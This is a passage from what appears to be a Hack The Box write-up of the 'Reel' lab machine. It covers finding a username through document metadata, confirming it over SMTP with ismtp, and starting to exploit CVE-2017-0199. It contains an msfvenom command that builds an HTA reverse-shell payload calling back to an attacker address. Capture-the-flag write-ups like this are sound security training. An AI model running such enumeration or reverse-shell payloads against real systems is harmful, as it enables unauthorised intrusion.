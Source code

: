 However, taking a look at **Windows Event Forwarding.docx** using `exiftool`, creator is found to be `nico@megabank.com` which is very interesting:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-30.png)

### SMTP - TCP 25

Since we have a potential valid user **nico**, let's verify using SMTP:

`ismtp -h 10.10.10.77 -e ~/Documents/htb/reel/user-list.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-31.png)

`ismtp` verifies user **nico** is a valid user.

## Shell as nico
### CVE-2017-0199

Recalling **readme.txt** from the FTP earlier, let's try on [CVE-2017-0199](https://nvd.nist.gov/vuln/detail/CVE-2017-0199):

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-7.png)

We will use [this exploit](https://github.com/bhdresh/CVE-2017-0199) for it. 

We will first create a malicious payload that will spawn a reverse shell:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.36 LPORT=443 -f hta-psh -o msfv.hta`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-8.png)
